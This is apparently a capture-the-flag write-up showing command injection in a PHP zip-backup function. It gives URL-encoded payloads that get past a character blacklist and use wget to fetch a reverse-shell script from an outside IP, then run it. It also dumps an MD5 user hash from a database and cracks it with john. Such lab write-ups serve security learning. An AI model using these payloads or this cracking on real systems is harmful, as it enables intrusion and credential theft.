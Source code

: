 ### Source Audit: Command Injection

Found **zip backup function** using user-controlled `password`:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) return false;
    }
    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

Command executed:

```php
zip -x './backups/*' -r -P $password $backupFile . > $logFile 2>&1 &
```

### Bypassing Blacklist

Using URL encoding:

* `%0a` for newline
* `%09` for space

Payloads:

```bash
# Download reverse shell
password=%0abash%09-c%09"wget%09http://10.10.16.78:8089/1.sh"&backup=

# Execute reverse shell
password=%0abash%09-c%09"bash%091.sh"&backup=
```

### Getting Shell

* Received **reverse shell as `www-data`**.
* Found `nocturnal_database.db` with SQLite containing user hashes:

```
tobias: 55c82b1ccd55ab219b3b109b07d5061d
```

### Cracking Hash

Used `john` with `rockyou.txt`:

```bash
$john --format=raw-md5 tobias.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
slowmotionapocalypse (?)     
1g 0:00:00:00 DONE (2025-07-08 12:22) 2.222g/s 8207Kp/s 8207Kc/s 8207KC/s slp31891..slowmo6
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```
